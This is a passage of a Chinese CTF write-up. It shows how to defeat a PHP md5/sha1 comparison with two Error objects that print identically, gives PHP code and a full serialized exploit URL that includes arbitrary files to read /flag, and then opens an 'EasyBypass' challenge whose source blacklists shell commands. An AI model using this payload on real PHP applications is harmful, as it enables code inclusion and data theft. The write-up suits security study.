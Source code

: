 利用原生类中的 Error/Exception 来绕过哈希比较

参考文章 [https://johnfrod.top/%E5%AE%89%E5%85%A8/ctf-%E4%B8%AD-php%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8/](https://johnfrod.top/%E5%AE%89%E5%85%A8/ctf-%E4%B8%AD-php%E5%8E%9F%E7%94%9F%E7%B1%BB%E7%9A%84%E5%88%A9%E7%94%A8/)

原理就是 md5 sha1 函数传入 class 的时候其实会调用它的 \_\_toString 方法, 而 Error/Exception 刚好存在 \_\_toString, 并且显示的错误信息不会包含实例化传入的 code

即我们可以通过改变 code 的内容来构造两个不同异常类, 但这两个类的 \_\_toString 返回结果是相同的

```php
<?php

class SYCLOVER {
    public $syc;
    public $lover;
}

$cmd = 'include $_GET[1];?>';

$a = new Error($cmd, 1); $b = new Error($cmd, 2);

$o = new SYCLOVER();
$o->syc = $a;
$o->lover = $b;

echo urlencode(serialize($o));
```

注意两个异常类得放到一行写, 因为错误信息中会显示当前语句所在的行号

```
http://853ea8a8-7f5f-4242-a388-4a151477d960.node4.buuoj.cn:81/?great=O%3A8%3A%22SYCLOVER%22%3A2%3A%7Bs%3A3%3A%22syc%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A19%3A%22include+%24_GET%5B1%5D%3B%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A37%3A%22D%3A%5CphpStudy%5CPHPTutorial%5CWWW%5Cindex.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7Ds%3A5%3A%22lover%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A19%3A%22include+%24_GET%5B1%5D%3B%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A2%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A37%3A%22D%3A%5CphpStudy%5CPHPTutorial%5CWWW%5Cindex.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%7D&1=/flag
```

反引号执行命令失败, 换成了 include

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161759209.png)

## EasyBypass

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";
```